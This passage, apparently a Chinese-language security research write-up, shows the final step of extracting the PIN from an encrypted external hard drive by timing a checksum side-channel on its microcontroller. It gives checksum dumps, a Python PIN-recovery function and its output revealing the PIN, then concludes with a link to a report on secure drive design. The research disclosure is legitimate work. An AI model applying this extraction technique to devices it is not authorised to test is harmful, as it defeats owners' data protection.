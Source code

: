 接下来，我将PIN码从“123456”改成了“1234567”：

```
No bad try 14 tries remaining
block 125 : 0x47E2 block 125 : 0x47E2
block 126 : 0x63BE block 126 : 0x6355
block 127 : 0x63BE block 127 : 0x6355
block 128 : 0x82F5 block 128 : 0x828C
```

### <a class="reference-link" name="%E6%81%A2%E5%A4%8DPIN%E7%A0%81"></a>恢复PIN码

综上所述，我开发的代码可以直接恢复出PIN码：

```
def dump_pin():
pin_map = `{`0x24: "0", 0x25: "1", 0x26: "2", 0x27:"3", 0x20: "4", 0x21: "5",
0x22: "6", 0x23: "7", 0x2c: "8", 0x2d: "9"`}`
last_csum = 0
pin_bytes = []
for delay in range(145495, 145719, 16):
csum = csum_at(delay, 1)
byte = (csum-last_csum)&amp;0xFF
print "%05d %04x (%04x) =&gt; %02x" % (delay, csum, last_csum, byte)
pin_bytes.append(byte)
last_csum = csum
print "PIN: ",
for i in range(0, len(pin_bytes)):
if pin_bytes[i] in pin_map:
print pin_map[pin_bytes[i]],
print
```

代码的输出结果如下：

```
$ ./psoc.py
syncing: KO OK
Resetting PSoC: KO Resetting PSoC: KO Resetting PSoC: OK
145495 53e2 (0000) =&gt; e2
145511 5407 (53e2) =&gt; 25
145527 542d (5407) =&gt; 26
145543 5454 (542d) =&gt; 27
145559 5474 (5454) =&gt; 20
145575 5495 (5474) =&gt; 21
145591 54b7 (5495) =&gt; 22
145607 54da (54b7) =&gt; 23
145623 5506 (54da) =&gt; 2c
145639 5506 (5506) =&gt; 00
145655 5533 (5506) =&gt; 2d
145671 554c (5533) =&gt; 19
145687 554e (554c) =&gt; 02
145703 554e (554e) =&gt; 00
PIN: 1 2 3 4 5 6 7 8 9
```



## 总结

大家可以看到，我们成功地破解了这款加密硬盘的安全保护机制，因为它使用了普通的（非硬编码）微型控制器来存储PIN码。那么爱国者应该怎么办呢？在对其他几款加密HDD进行了分析之后，我们发布了这篇关于设计安全加密外部存储驱动器的【[研究报告](https://syscall.eu/pdf/syscan_2015_rigo_secure_hdd.pdf)】，并且给出了很多最佳实践方案，感兴趣的同学可以了解一下。
